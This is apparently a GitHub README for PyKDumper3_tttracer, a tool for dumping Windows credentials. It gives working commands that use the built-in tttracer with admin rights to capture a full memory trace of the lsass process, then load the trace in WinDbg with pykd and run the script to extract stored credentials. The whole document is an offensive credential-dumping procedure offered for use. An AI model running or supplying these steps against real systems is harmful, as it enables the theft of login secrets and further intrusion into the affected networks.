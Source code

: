 # PyKDumper3_tttracer
PyKDumper3 modified for TTTracer credentials dumpping

## Background
Found this twitter post: https://twitter.com/n_o_t_h_a_n_k_s/status/1559620227586875392

It is an interesting built-in method to dump lsass memory.

## Tools
- Windows machine

- Windbg Preview Without Microsoft Store:
  1. Paste the Microsoft Store windbg link into https://store.rg-adguard.net/ to receive a download link
  2. Wget the appx file `wget -O windbg.appx https://link`
  3. Double click to install it

Ref: https://digitalitskills.com/windbg-preview-download-and-install-without-ms-store/

- pykd
https://githomelab.ru/pykd/pykd-ext/-/wikis/Downloads

- PyKDumper3.py
https://github.com/uf0o/PykDumper/blob/master/PyKDumper/PyKDumper3.py

## Analysis

### 1. Create dump file (as admin privilege)
```
Powershell session 1: 
tttracer -dumpfull -attach (Get-Process lsass | Select -expand id)
```

Wait 3-6s please...

```
Powershell session 2: 
tttracer -stop (Get-Process lsass | Select -expand id)
```

### 2. Copy the .run file to your machine with windbg

### 3. Prepare pykd
Download pykd and copy pykd.dll to `%LocalAppData%\Dbg\EngineExtensions`

### 4. Prepare PyKDumper3_tttracer.py

### 5. Read lsass dump
windbg load .run file

windbg cmd:
```
.load pykd
!py path_to_script\PyKDumper3_tttracer.py
```
